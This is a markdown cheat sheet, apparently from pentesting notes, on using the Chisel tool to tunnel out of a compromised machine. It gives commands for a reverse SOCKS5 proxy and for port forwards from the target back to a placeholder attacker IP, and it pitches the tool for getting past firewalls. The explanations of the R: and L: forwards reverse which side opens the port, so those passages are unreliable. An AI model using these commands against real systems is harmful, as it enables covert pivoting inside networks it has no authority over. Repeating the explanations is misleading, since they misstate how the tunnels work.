 # Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured with SSH. It's a powerful and versatile tool for creating reverse shells, setting up SOCKS proxies for pivoting, and forwarding ports in a highly flexible manner. Chisel is often preferred over standard SSH for its performance, ease of use in certain scenarios, and ability to bypass restrictive firewall rules that might block SSH directly.

## Download & Install:

Download the appropriate static binary from the Chisel GitHub releases page for your attacker machine and the target architecture. Transfer the client binary to the target machine.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Basic Concepts:

* Server Mode: Chisel listens for incoming connections.
* Client Mode: Chisel connects to a Chisel server.

## Common Use Cases:

### Setting up a SOCKS5 Proxy for Pivoting:

1.  On your attacker machine (server):

    ```bash
    chisel server --reverse --port 8000
    ```

    This starts a Chisel server on port 8000, allowing a client to connect back and create a reverse tunnel. The `--reverse` flag enables reverse SOCKS proxy support.
2.  On the compromised target (client):

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:socks
    ```

    The target connects to your attacker machine. `R:socks` tells the client to create a _reverse_ SOCKS proxy. When this connects, a SOCKS5 proxy will be available on your attacker machine's `localhost:1080` (by default, or a random high port if 1080 is in use, check chisel's output).

You can then configure `proxychains` or your browser to use `localhost:1080` as a SOCKS5 proxy to pivot through the compromised machine.

### Reverse Port Forwarding:

(Exposing a local service to the target)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose you have a local HTTP server on your machine on port 8080 that you want the target to access.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:80:localhost:8080
    ```

    This tells the target to open port `80` on its localhost, and any traffic to that port will be forwarded to your attacker machine's `localhost:8080`.

### Local Port Forwarding:

(Accessing a target service from your machine)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose the target has an internal web server at `192.168.1.50:80`.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 L:8080:192.168.1.50:80
    ```

    This creates a local forward on your attacker machine (where the `chisel server` is running) such that `localhost:8080` will connect to `192.168.1.50:80` through the tunnel.
